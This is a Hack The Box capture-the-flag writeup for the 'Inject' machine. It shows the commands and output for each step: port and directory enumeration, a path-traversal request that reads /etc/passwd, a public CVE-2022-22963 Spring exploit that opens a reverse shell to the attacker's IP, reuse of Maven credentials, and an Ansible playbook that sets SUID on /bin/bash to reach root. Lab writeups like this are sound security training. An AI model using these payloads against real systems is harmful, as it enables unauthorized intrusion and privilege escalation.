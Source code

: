 #+TITLE: Inject HTB Writeup
#+AUTHOR: MattiaCossu

* Enumeration
Let's the work with a simple scan for check if the hosts is ~up~.
#+BEGIN_SRC bash
  nmap -sn 10.10.11.204
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-17 15:56 EST
  Nmap scan report for 10.10.11.204
  Host is up (0.038s latency).
  Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
#+END_SRC

Nice the host is up, so now we can try other type of scan for find the ~open ports~.
#+BEGIN_SRC bash
  nmap -sC -sV 10.10.11.204
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-17 15:57 EST
  Nmap scan report for 10.10.11.204
  Host is up (0.039s latency).
  Not shown: 998 closed tcp ports (conn-refused)
  PORT     STATE SERVICE     VERSION
  22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
  |   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
  |_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
  8080/tcp open  nagios-nsca Nagios NSCA
  |_http-title: Home
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 9.48 seconds
#+END_SRC

We have found two ports:
- ~22 ssh~
- ~8080 http~ => Nagios NSCA
* Information Ghatering
** HTTP\80
We found the 8080 open, now we need to get as much information as possible
So let's try to run ~Whatweb~.
#+BEGIN_SRC bash
  whatweb 10.10.11.204:8080 -vv
  http://10.10.11.204:8080/ [200]
  Identifying: http://10.10.11.204:8080
  HTTP-Status: 200
  [["Bootstrap",
    [{:regexp=>
       ["<link rel=\"stylesheet\" type=\"text/css\" href=\"/webjars/bootstrap/css/bootstrap"],
      :regexp_compiled=>/<link [^>]*bootstrap/,
      :certainty=>100}]],
   ["Content-Language", [{:string=>"en-US", :certainty=>100}]],
   ["Country", [{:string=>"RESERVED", :module=>"ZZ", :certainty=>100}]],
   ["Frame",
    [{:regexp=>["<iframe "],
      :regexp_compiled=>/<i?frame\s+/i,
      :certainty=>100}]],
   ["HTML5",
    [{:regexp=>["<!DOCTYPE html>"],
      :regexp_compiled=>/<!DOCTYPE html>/i,
      :certainty=>100}]],
   ["IP", [{:string=>"10.10.11.204", :certainty=>100}]],
   ["Title", [{:name=>"page title", :string=>"Home", :certainty=>100}]],
   ["YouTube",
    [{:regexp=>["www."],
      :regexp_compiled=>
       /<iframe [^>]*src=['"]https?:\/\/(www\.)?youtube\.com\/embed\//,
      :certainty=>100}]]]

  WhatWeb report for http://10.10.11.204:8080
  Status    : 200 OK
  Title     : Home
  IP        : 10.10.11.204
  Country   : RESERVED, ZZ

  Summary   : Bootstrap, Content-Language[en-US], Frame, HTML5, YouTube

  Detected Plugins:
  [ Bootstrap ]
	  Bootstrap is an open source toolkit for developing with 
	  HTML, CSS, and JS. 

	  {:certainty=>100}
	  Website     : https://getbootstrap.com/

  [ Content-Language ]
	  Detect the content-language setting from the HTTP header. 

	  String       : en-US
	  {:certainty=>100, :string=>"en-US"}

  [ Frame ]
	  This plugin detects instances of frame and iframe HTML 
	  elements. 

	  {:certainty=>100}

  [ HTML5 ]
	  HTML version 5, detected by the doctype declaration 

	  {:certainty=>100}

  [ YouTube ]
	  Embedded YouTube video 

	  {:certainty=>100}
	  Website     : http://youtube.com/

  HTTP Headers:
	  HTTP/1.1 200 
	  Content-Type: text/html;charset=UTF-8
	  Content-Language: en-US
	  Transfer-Encoding: chunked
	  Date: Sun, 17 Dec 2023 21:02:47 GMT
	  Connection: close 
#+END_SRC

Nothing good, let's see with directories maybe we will have better luck.
#+BEGIN_SRC bash
  feroxbuster -u http://10.10.11.204:8080 -x "php,js,bak,md,json" -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

   ___  ___  __   __     __      __         __   ___
  |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
  |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
  by Ben "epi" Risher 🤓                 ver: 2.10.1
  ───────────────────────────┬──────────────────────
   🎯  Target Url            │ http://10.10.11.204:8080
   🚀  Threads               │ 50
   📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
   👌  Status Codes          │ All Status Codes!
   💥  Timeout (secs)        │ 7
   🦡  User-Agent            │ feroxbuster/2.10.1
   💉  Config File           │ /etc/feroxbuster/ferox-config.toml
   🔎  Extract Links         │ true
   💲  Extensions            │ [php, js, bak, md, json]
   🏁  HTTP methods          │ [GET]
   🔃  Recursion Depth       │ 4
  ───────────────────────────┴──────────────────────
   🏁  Press [ENTER] to use the Scan Management Menu™
  ──────────────────────────────────────────────────
  404      GET        1l        4w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
  200      GET      112l      326w     5371c http://10.10.11.204:8080/blogs
  200      GET       26l       48w      457c http://10.10.11.204:8080/css/test.css
  200      GET      104l      194w     5654c http://10.10.11.204:8080/register
  200      GET       54l      107w     1857c http://10.10.11.204:8080/upload
  200      GET       22l       22w      262c http://10.10.11.204:8080/css/under.css
  200      GET        7l     2006w   163873c http://10.10.11.204:8080/webjars/bootstrap/css/bootstrap.min.css
  200      GET      166l      487w     6657c http://10.10.11.204:8080/
  200      GET      155l      278w     3093c http://10.10.11.204:8080/css/blog.css
  200      GET        7l     2006w   163873c http://10.10.11.204:8080/webjars/bootstrap/5.1.3/css/bootstrap.min.css
  🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_11_204:8080-1702848192.state ...
  [>-------------------] - 5s      2525/1245882 45m     found:9       errors:0      
  [>-------------------] - 5s      2346/1245774 429/s   http://10.10.11.204:8080/   
#+END_SRC

We have found an interesting path ~/upload~, now let's check this call.

#+BEGIN_SRC bash
  GET /show_image?img=../../../../../../../../etc/passwd HTTP/1.1
  Host: 10.10.11.204:8080
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: close
  Upgrade-Insecure-Requests: 1
#+END_SRC

Testing an LFI attempt, we quickly realize that we are going to GOAL.
#+BEGIN_SRC bash
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  <SNIP>
#+END_SRC

Now our goal is to navigate the filesystem and look for interesting artifacts.
While browsing we come across an interresing file found in ~/var/www/WebApp/pom.xml~.
#+BEGIN_SRC bash
  <?xml version="1.0" encoding="UTF-8"?>
  <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	  <modelVersion>4.0.0</modelVersion>
	  <parent>
		  <groupId>org.springframework.boot</groupId>
		  <artifactId>spring-boot-starter-parent</artifactId>
		  <version>2.6.5</version>
		  <relativePath/> <!-- lookup parent from repository -->
	  </parent>
	  <groupId>com.example</groupId>
	  <artifactId>WebApp</artifactId>
	  <version>0.0.1-SNAPSHOT</version>
	  <name>WebApp</name>
	  <description>Demo project for Spring Boot</description>
	  <properties>
		  <java.version>11</java.version>
		  </properties>
	<SNIP>
#+END_SRC
 This file contain freamwork name ~Spring~ and version ~2.6.5~.

Whit a simple search on goole we can find that https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/tree/main.
A repository that provide a poc for exploit the application.
Let's see if we are lucky.
#+BEGIN_SRC bash
  python3 exploit.py -u http://10.10.11.204:8080
  [+] Target http://10.10.11.204:8080

  [+] Checking if http://10.10.11.204:8080 is vulnerable to CVE-2022-22963...

  [+] http://10.10.11.204:8080 is vulnerable

  [/] Attempt to take a reverse shell? [y/n]y
  listening on [any] 4444 ...
  [$$] Attacker IP:  10.10.14.7
  connect to [10.10.14.7] from (UNKNOWN) [10.10.11.204] 38096
  bash: cannot set terminal process group (823): Inappropriate ioctl for device
  bash: no job control in this shell
  frank@inject:/$ id 
  id 
  uid=1000(frank) gid=1000(frank) groups=1000(frank)
  frank@inject:/$ 
#+END_SRC
We are load out as rank, Nice!
* Privilege Escaletion as Phil
Once we get into the filesystem we can go sbito and look for artifacts in frank's folder.

Randomly opening the .m2 folder we find an xml configuration file.
we print the file and smile.
#+BEGIN_SRC bash
  <?xml version="1.0" encoding="UTF-8"?>
  <settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <servers>
      <server>
	<id>Inject</id>
	<username>phil</username>
	<password><Redacted></password>
	<privateKey>${user.home}/.ssh/id_dsa</privateKey>
	<filePermissions>660</filePermissions>
	<directoryPermissions>660</directoryPermissions>
	<configuration></configuration>
      </server>
    </servers>
    </settings>
#+END_SRC

We are Phil!
* Privilage Escaletion as Root
Once in we upload and execute leanpeace.
#+BEGIN_SRC bash
  ╔══════════╣ Modified interesting files in the last 5mins (limit 100)
  /tmp/lp.sh                                                                                                                                                                                                           
  /tmp/hsperfdata_frank/823
  /opt/automation/tasks/playbook_1.yml
  /var/log/ubuntu-advantage-timer.log
  /var/log/syslog
  /var/log/journal/85d739f40e3d4536ad871c536347b52b/user-1000.journal
  /var/log/journal/85d739f40e3d4536ad871c536347b52b/user-1001.journal
  /var/log/journal/85d739f40e3d4536ad871c536347b52b/system.journal
  /var/log/kern.log
  /var/log/auth.log
  /home/phil/.gnupg/pubring.kbx
  /home/phil/.gnupg/trustdb.gpg
#+END_SRC

~/opt/automation/tasks/playbook_1.yml~ is now as mission.

This YAML file is an ~Ansible playbook~, a document that defines a set of actions to be performed on a set of specified hosts. In this case, the playbook is configured to act on the host "localhost" and contains a single activity (tasks).

The specific task is called "Checking webapp service" and uses Ansible's ansible.builtin.systemd module to manage the "webapp" service via systemd.

With a quick search we find something even more interesting [[https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/][POC]].

If the target system runs automation tasks with Ansible Playbook as root and we have write permission of task files (tasks/), we can inject arbitrary commands in yaml file.
For example, create a new file /opt/ansible/tasks/evil.yaml.

Whit a little refactor 
#+BEGIN_SRC bash
- hosts: localhost
  tasks:
    - name: Change permissions of /bin/bash
      ansible.builtin.shell: |
        chmod +s /bin/bash	    
#+END_SRC

Ad a few time...
#+BEGIN_SRC bash
  phil@inject:/opt/automation/tasks# id
  uid=1001(phil) gid=1001(phil) euid=0(root) egid=0(root) groups=0(root),50(staff),1001(phil)
#+END_SRC
